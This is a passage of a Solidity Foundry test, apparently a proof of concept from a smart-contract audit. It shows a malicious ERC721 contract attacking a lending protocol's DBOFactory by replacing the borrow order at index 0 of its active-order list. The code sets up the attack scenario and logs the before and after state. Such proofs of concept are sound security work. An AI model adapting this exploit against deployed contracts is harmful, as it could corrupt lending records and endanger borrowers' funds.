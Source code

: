 ```solidity
            address(0x0),
            1
        );
    }
}

// run test with: forge test --match-path test/vidus/MaliciousNFT.sol -vvv
contract MaliciousNFTTest is Test, DynamicData {

    DBOFactory public DBOFactoryContract;
    DBOImplementation public BorrowOrder;
    DynamicData public allDynamicData;

    MaliciousERC721 maliciousERC721;
    address borrower;
    address attacker;

    ERC20Mock public USDCContract;
    address USDC;

    function setUp() public {

        borrower = makeAddr("borrower");
        attacker = makeAddr("attacker");

        USDCContract = new ERC20Mock();
        USDC = address(USDCContract);

        DBOImplementation borrowOrderImplementation = new DBOImplementation();
        DBOFactoryContract = new DBOFactory(address(borrowOrderImplementation));
        allDynamicData = new DynamicData();

        maliciousERC721 = new MaliciousERC721(address(DBOFactoryContract));
        //mint malicious erc721 to malicious erc721
        maliciousERC721.mint(address(maliciousERC721), 1);

    }

    function testAttack() public {

        createBorrowOrderWithBorrower();

        // function will console address of borrowOrderAddress in allActiveBorrowOrders
        console.log("Borrow order at index 0 before the attack:", DBOFactoryContract.allActiveBorrowOrders(0));

        // attack
        vm.prank(attacker);
        maliciousERC721.attack();
        vm.stopPrank();

        // function will console address of borrow order address of malicious nft in allActiveBorrowOrders
        console.log("Borrow order at index 0 after the attack:", DBOFactoryContract.allActiveBorrowOrders(0));

    }

    function createBorrowOrderWithBorrower() public {

        // normal borrow order creation by borrower
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
```